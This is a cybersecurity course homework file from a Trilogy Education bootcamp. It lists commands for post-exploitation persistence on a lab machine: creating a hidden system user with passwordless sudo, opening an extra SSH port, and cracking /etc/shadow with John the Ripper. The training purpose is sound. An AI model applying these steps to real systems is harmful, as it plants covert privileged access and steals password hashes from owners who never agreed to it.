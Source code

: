 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt.

Save and submit the completed file for your homework submission.

**Step 1: Shadow People**

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `useradd --no-create-home sysd`

2. Give your secret user a password:
    - `passwd sysd`

3. Give your secret user a system UID < 1000:
    - `usermod -u 127 sysd`

4. Give your secret user the same GID:
   - `groupmod -g 127 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `visudo`
   - Then make the following edit:
   - `sysd ALL=(ALL:ALL) NOPASSWD:ALL`

6. Test that `sudo` access works without your password:

    ```bash
    su sysd
    sudo -l
    sudo ls
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    vi /etc/ssh/sshd_config

    # Then make the following edits:
    Port 22
    Port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `systemctl restart sshd`

2. Exit the `root` account:
    - `exit # twice`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo su`
    - `john /etc/shadow`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

